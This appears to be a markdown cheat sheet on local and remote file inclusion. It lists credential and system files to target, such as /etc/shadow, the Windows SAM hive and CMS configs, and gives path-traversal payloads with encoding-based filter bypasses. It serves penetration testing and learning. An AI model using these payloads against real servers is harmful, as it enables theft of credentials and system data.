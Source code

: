 # Local and remote file inclusion
Local file inclusion (LFI) vulnerabilities allow an attacker to read local files on the web server using malicious web requesrts. These files can include web configuration files, log files, password files and other sensitive system data. LFI can also be used for remote code execution (RCE). In most cases, this vulnerability is due to poor input sanitization.

Remote file inclusions is similar, but the attacker is taking advantage of the web server's ability to call local files, and using it to upload files from remote servers. These remote files can be malicious code that executes in the context of the web server user (e.g. www-data).

## Interesting files
If an LFI vulnerability exists, look for these files:

### Linux
Linux system files:
```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
```
**Log files**
Potentially interesting logfiles:
```
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
```
**CMS configuration files**
Content management system configuration files:
```
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```
### Windows
Files that may exist on Windows systems:
```
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```
The system and SAM files might be in different locations. As well, the path might be case-sensitive, even though it's Windows. 
```
# SYSTEMROOT is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
## Techniques

### Basic
Assuming you are on a Linux system, test if you can display `/etc/passwd` by moving back 5 directory levels:
```
http://host/?page=../../../../../etc/passwd
```
Even if this doesn't work, it doesn't mean that the website is immune to path traversal. When filtering input, developers will often prevent the use of forward slashes, but not backslashes or encoded characters.

### Nesting traversal sequences
If the application is attempting to sanitize user input by removing traversal sequences, but does not apply this filter recursively, then it may be possible to bypass the filter by placing one sequence within another:

```
....//

....\/

..../\

....\\
```

### URL-encoded
Encoding all the slashes and dots in your path traversal could bypass input filters:
 
```
dot             %2e
forward slash   %2f
backslash       %5c
```
Example: 
```
 %2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
```

### Double URL-encoded
Another encoding method:
```
dot             %252e
forward slash   %252f
backslash       %255c
```
Example:
```
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
### Overlong UTF-8 encoding
You can also use the illegal Unicode payload type in Burp Intruder for this technique:

```
dot             %c0%2e  %e0%40%ae  %c0ae etc.
forward slash   %c0%af  %e0%80%af  %c0%2f etc.
backslash       %c0%5c  %c0%80%5c  etc.
```

### Null-byte injection

## Further reading
* [Local File Inclusion by xapax](https://xapax.gitbooks.io/security/content/local_file_inclusion.html)
* [Bypassing filters for path traversal](https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html)

